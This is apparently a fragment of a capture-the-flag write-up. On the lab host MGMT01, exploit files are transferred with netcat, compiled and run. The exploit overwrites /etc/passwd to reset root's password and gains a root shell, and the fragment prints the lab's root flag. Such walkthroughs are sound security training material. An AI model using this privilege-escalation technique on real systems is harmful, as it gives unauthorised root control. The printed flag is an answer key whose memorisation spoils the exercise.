
bash

```bash
# on MGMT01, receiving each file
ssmallsadm@MGMT01:~$ nc -lvnp 8000 > compile.sh
ssmallsadm@MGMT01:~$ nc -lvnp 8000 > exploit-1.c
ssmallsadm@MGMT01:~$ nc -lvnp 8000 > exploit-2.c
ssmallsadm@MGMT01:~$ file exploit-1.c
exploit-1.c: C source, ASCII text
ssmallsadm@MGMT01:~$ file compile.sh
compile.sh: Bourne-Again shell script, ASCII text executable
```

Once all three files arrive, the exploit is compiled and run:

bash

```bash
ssmallsadm@MGMT01:~$ bash compile.sh
ssmallsadm@MGMT01:~$ ls
compile.sh  exploit-1  exploit-1.c  exploit-2  exploit-2.c  flag.txt
ssmallsadm@MGMT01:~$ ./exploit-1
```

```
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
flag.txt  snap
cat flag.txt
206c03861986c0e264438cb6e8e90a19
```

---

## Flag (MGMT01 Root)

**Flag:**

```
206c03861986c0e264438cb6e8e90a19
```